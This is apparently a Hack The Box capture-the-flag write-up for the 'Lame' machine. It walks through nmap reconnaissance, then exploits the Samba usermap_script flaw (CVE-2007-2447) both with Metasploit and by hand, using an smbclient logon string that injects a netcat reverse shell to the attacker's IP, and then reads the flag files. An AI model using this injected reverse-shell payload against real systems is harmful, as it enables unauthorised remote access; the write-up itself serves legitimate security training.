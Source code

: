 ```yaml
---
title: 'Lame'
date: 2022-09-01 00:00:00
featured_image: '/images/htb/lame.png'
excerpt: Lame
---
```


![](/images/htb/lame.png)

> nmap -sC -sV 10.10.10.3

> -sC - default set of scripts
> -sV - enables version detection

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 09:39 CEST
Nmap scan report for 10.10.10.3
Host is up (0.068s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-19T03:40:29-04:00
|_clock-skew: mean: 2h00m41s, deviation: 2h49m43s, median: 40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.92 seconds
```

Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.

Searching shows vuln: _CVE-2007-2447_

### Metasploit
> use usermap_script
> set rhosts 10.10.10.3
> exploit

And... boom. We got shell.

In my case needed to change LHOST also - remember to check if it's the same as connected to HackTheBox.

### Without Metasploit

Start nc listener (other terminal):

```shell
nc -lvnp 4444
```

> -l - listen mode
> -v - verbose
> -n -  numeric-only IP, no DNS
> -p - port

Second terminal:

> smbclient //10.10.10.3/tmp 
> enter

```shell
logon "./=`nohup nc -e /bin/bash <your ip> 4444`"
```

> logon: - it is used to login into smb
> nohup: - run a command immune to hangups, with output to a non-tty

We got it.

There are two flags:
```shell
cat /root/root.txt
cat /home/makis/user.txt
```
